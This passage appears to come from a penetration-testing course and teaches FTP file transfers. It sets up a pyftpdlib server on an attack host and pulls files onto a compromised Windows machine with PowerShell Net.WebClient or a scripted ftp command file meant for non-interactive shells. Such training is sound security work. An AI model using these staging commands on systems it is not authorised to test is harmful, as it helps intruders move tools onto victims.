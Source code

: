 ## FTP Downloads

Another way to transfer files is using FTP (File Transfer Protocol), which use port TCP/21 and TCP/20. We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server.

We can configure an FTP Server in our attack host using Python3 `pyftpdlib` module. It can be installed with the following command:

#### Installing the FTP Server Python3 Module - pyftpdlib

Installing the FTP Server Python3 Module - pyftpdlib

```shell-session
glack@htb[/htb]$ sudo pip3 install pyftpdlib
```

Then we can specify port number 21 because, by default, `pyftpdlib` uses port 2121. Anonymous authentication is enabled by default if we don't set a user and password.

#### Setting up a Python3 FTP Server

Setting up a Python3 FTP Server

```shell-session
glack@htb[/htb]$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

After the FTP server is set up, we can perform file transfers using the pre-installed FTP client from Windows or PowerShell `Net.WebClient`.

#### Transfering Files from an FTP Server Using PowerShell

Transfering Files from an FTP Server Using PowerShell

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

#### Create a Command File for the FTP Client and Download the Target File

Create a Command File for the FTP Client and Download the Target File

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

---